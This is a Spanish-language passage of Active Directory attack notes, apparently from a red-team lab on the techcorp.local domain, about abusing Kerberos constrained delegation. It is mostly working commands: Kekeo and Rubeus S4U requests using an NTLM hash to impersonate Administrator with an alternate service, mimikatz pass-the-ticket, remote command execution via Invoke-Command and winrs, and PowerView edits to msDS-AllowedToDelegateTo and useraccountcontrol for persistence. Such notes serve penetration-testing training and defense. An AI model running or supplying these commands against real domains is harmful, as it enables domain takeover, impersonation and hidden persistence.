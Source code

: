 - La delegación se produce no sólo para el servicio especificado, sino para cualquier servicio que se ejecute bajo la misma cuenta. No hay validación para el SPN especificado.  
- El campo ``sname`` no está cifrado y puede modificarse al solicitar el TGS para cualquier SPN.  

```
# Usando Kekeo
### Se puede usar contraseña o un hash NTLM
### Solicitamos un TGT para la cuenta de servicio (Constrained Delegation)
tgt::ask /user:appsvc /domain:us.techcorp.local /rc4:1D49D390AC01D568F0EE9BE82BB74D4C

### Solicitar TGS usando S4U2self y S4U2proxy
tgs::s4u /tgt:TGT_appsvc@US.TECHCORP.LOCAL_krbtgt~us.techcorp.local@US.TECHCORP.LOCAL.kirbi /user:Administrator /service:CIFS/us-mssql.us.techcorp.local|HTTP/us-mssql.us.techcorp.local

- Además del servicio especificado en msDs-AllowedToDelegateTo, también se especifica un servicio alternativo que utiliza la misma cuenta de servicio que el especificado en msDs-AllowedToDelegateTo.
```

```
# Usando mimikatz
### Pass The Ticket (PTT) sobre el ticket de servicio
Invoke-Mimikatz '"kerberos::ptt TGS_Administrator@US.TECHCORP.LOCAL_HTTP~us-mssql.us.techcorp.local@US.TECHCORP.LOCAL_ALT.kirbi"'

### Ejecutar comando en máquina remota
### Es posible debido al ticket de servicio sobre HTTP
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local
```

```
# Usando Rubeus
### Solicitar TGS usando S4U2self y S4U2proxy
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt

### Obtener cmd en máquina remota
### Es posible debido al ticket de servicio sobre HTTP
winrs -r:us-mssql cmd.exe
```
#### Persistence

- Tenga en cuenta que el ``msDS-AllowedToDelegateTo`` es la bandera de la cuenta de usuario que controla los servicios a los que una cuenta de usuario tiene acceso.  
- Esto significa que, con suficientes privilegios, es posible acceder a cualquier servicio desde un usuario: un buen truco de persistencia.
- ¿Suficientes privilegios? - SeEnableDelegationPrivilege en el DC y plenos derechos en el usuario de destino( por defecto para Domain Admins y Enterprise Admins)
- Es decir, podemos forzar 'Trusted to Authenticate for Delegation' y ms-DS-AllowedToDelegateTo en un usuario (o crear un nuevo usuario - que es más ruidoso) y abusar de él más tarde.  

```
# PowerView
# Persistencia - msDS-AllowedToDelegateTo
### Modificar el atributo SPN
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
### Modificar el atributo msds-allowedtodelegateto
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us-dc.us.techcorp.local"}
### Activar o desactivar "useraccountcontrol"="16777216"
### El valor '16777216' corresponde a 'TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION'
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
### Enumerar usuarios Constrained Delegation
Get-DomainUser –TrustedToAuth
```
